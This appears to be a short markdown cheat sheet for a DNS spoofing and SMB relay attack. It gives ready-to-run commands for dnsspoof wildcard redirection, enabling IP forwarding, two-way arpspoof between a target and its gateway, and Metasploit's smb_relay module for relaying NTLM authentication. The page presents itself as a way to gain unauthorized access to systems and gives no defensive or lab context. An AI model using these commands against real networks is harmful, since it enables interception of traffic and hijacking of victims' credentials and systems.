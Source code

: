A DNS spoofing and SMB relay attack leverages misconfigured or insecure networks to intercept traffic and relay authentication credentials to gain unauthorized access to systems. It combines DNS spoofing to redirect traffic and SMB relay to capture and relay NTLM authentication hashes.

## 1. DNS Spoofing Setup

**DNS spoofing** involves impersonating a DNS server to redirect a victim's traffic to an attacker-controlled machine.

| Option         | Description                                                                  |
| -------------- | ---------------------------------------------------------------------------- |
| **`ip`**       | Replace with the attacker's IP address.                                      |
| **`*.domain`** | Wildcard to redirect all subdomains of the specified domain to the attacker. |
| **`-i eth1`**  | Specifies the network interface to listen on.                                |
| **`-f dns`**   | Specifies the DNS spoofing configuration file.                               |

```bash
echo "<ip> *.domain" > dns
dnsspoof -i eth1 -f dns
```

## 2. Enable IP Forwarding

This command enables IPv4 packet forwarding, allowing the attacker to act as a relay between the victim and the gateway.

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```

##  3. ARP Spoofing

ARP spoofing poisons the ARP cache of the target and gateway, allowing the attacker to position themselves as a man-in-the-middle.

| Option          | Description                                     |
| --------------- | ----------------------------------------------- |
| **`gateway`**   | The IP address of the network gateway (router). |
| **`-i eth1`**   | Specifies the network interface to use.         |
| **`-f target`** | The IP address of the target machine.           |
```bash
arpspoof -i eth1 -t target gateway
arpspoof -i eth1 -t gateway target
```

## 4. SMB Relay with Metasploit

The SMB relay attack exploits NTLM authentication by intercepting SMB requests and relaying them to a legitimate server to authenticate as the victim.

1. Use the SMB relay module:

```bash
use windows/smb/smb_relay
```

2. Configure the module options:

- Set the target IP and other necessary parameters, such as `SRVHOST` and `LHOST`.
- Ensure the listener is ready to capture and relay the credentials.

3. Run the attack:

```bash
exploit
```